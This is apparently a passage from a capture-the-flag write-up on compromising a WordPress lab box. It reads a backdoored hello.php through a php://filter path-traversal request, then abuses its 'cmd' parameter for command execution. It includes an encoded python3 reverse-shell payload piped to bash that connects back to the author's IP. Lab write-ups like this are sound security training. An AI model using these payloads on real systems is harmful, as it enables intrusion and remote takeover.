 The first row seems really interesting. Backdoor, plugin named "Hello Dolly". Let's try to find out more about this plugin.

Reading up on it a bit, we find that the actual php-file seem to be named hello.php. And it seems to be placed either directly in the plugins directory or it's own directory called hello-dolly.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../hello.php
```

There it is! Now what can we learn about this? There was talk about a backdoor. Do we find anything of interest in the code? We actually do. Especially if we compare this file to an original from github. The line with the eval and a base64 encoded string.

Decoding it in our terminal gives us this result.

![image](Images/smol7.png)

Looks like there is some more encoding going on. After looking around for a while I found out that "\143\155\x64" decodes into cmd. So let's try and see if we can have any command injeciton.

```
http://www.smol.thm/wp-admin/index.php?cmd=id
```

![image](Images/smol8.png)

Awesome! Now let's try to leverage this to get a reverse shell going. After experimenting for a bit, I found a way to get it to work. By using a python3 reverse shell and encoding it as base64, that then is decoded and piped to bash.

```
http://www.smol.thm/wp-admin/index.php?cmd=echo+ZXhwb3J0IFJIT1NUPSIxMC45LjI0NS4xMDUiO2V4cG9ydCBSUE9SVD0xMzM3O3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw==+|+base64+-d+|+bash
```

Keep in mind that you'll have to make your own base64 encoded string. Since this one is pointing to my IP and the port that I chose. You can use this site to make your own.

```
https://www.revshells.com/
```
